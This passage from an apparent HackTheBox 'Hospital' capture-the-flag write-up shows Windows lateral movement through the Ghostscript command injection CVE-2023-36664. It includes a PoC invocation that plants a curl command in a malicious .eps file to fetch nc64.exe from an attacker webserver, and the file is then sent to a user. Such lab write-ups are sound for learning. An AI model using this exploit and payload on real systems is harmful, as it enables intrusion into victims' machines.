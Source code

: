 <img src="/assets/img/2024-hospital/email.png" alt="email.png" class="auto-resize">

## Windows movement

A google for `GhostScript` and `.eps` reveals another potential vector in the form of a remote code execution via a command injection.

- [jakabakos/CVE-2023-36664-Ghostscript-command-injection: Ghostscript command injection vulnerability PoC (CVE-2023-36664) (github.com)](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection)

It seems the vector is to create a payload that exploited the vulnerability in the GhostScript software, and send it back to Dr. Brown to move over to that user's machine..

The payload is crafted by creating a malicious `.eps` file and appending a command to it. This appears to be a method that will break out into the Windows layer, as presumably Dr. Brown will read the email and open the file on a Windows machine.

Proceeding with this theory, the Windows version of Netcat (`nc64.exe`) is required, and palced in the same directory as the exploit. A payload is created that retrieves the `nc64.exe` from a webserver

```bash
┌──(kali㉿kali)-[~/…/htb-machines/hospital/exploits/CVE-2023-36664-Ghostscript-command-injection]
└─$ python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.14.2:8000/nc64.exe -o nc.exe" --filename new-design.eps
[+] Payload successfully injected into new-design.eps.
```

The binary is then served and the malicious file sent back to Dr. Brown.
